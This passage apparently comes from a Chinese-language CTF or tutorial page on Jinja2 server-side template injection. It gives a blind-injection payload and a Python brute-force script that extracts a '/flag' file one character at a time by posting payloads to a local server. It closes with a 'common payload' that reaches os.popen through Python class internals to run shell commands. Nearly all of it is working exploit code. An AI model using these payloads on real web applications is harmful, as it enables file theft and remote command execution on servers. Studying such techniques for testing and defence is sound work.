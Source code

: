 #### 盲注文件内容

```
{% if ''.__class__.__mro__[2].__subclasses__()[40]('/flag').read()[0:1]=='p'%}~p0~{% endif %}

#脚本
import requests


url = 'http://127.0.0.1:8080/'

def check(payload):
    postdata = {
        'exploit':payload
        }
    r = requests.post(url, data=postdata).content
    return '~p0~' in r

password  = ''
s = r'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$\'()*+,-./:;<=>?@[\\]^`{|}~\'"_%'

for i in xrange(0,100):
    for c in s:
        payload = '{% if "".__class__.__mro__[2].__subclasses__()[40]("/flag").read()['+str(i)+':'+str(i+1)+'] == "'+c+'" %}~p0~{% endif %}'
        if check(payload):
            password += c
            break
    print password
```

## 0x05常用payload

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls').read()") }}{% endif %}{% endfor %}
```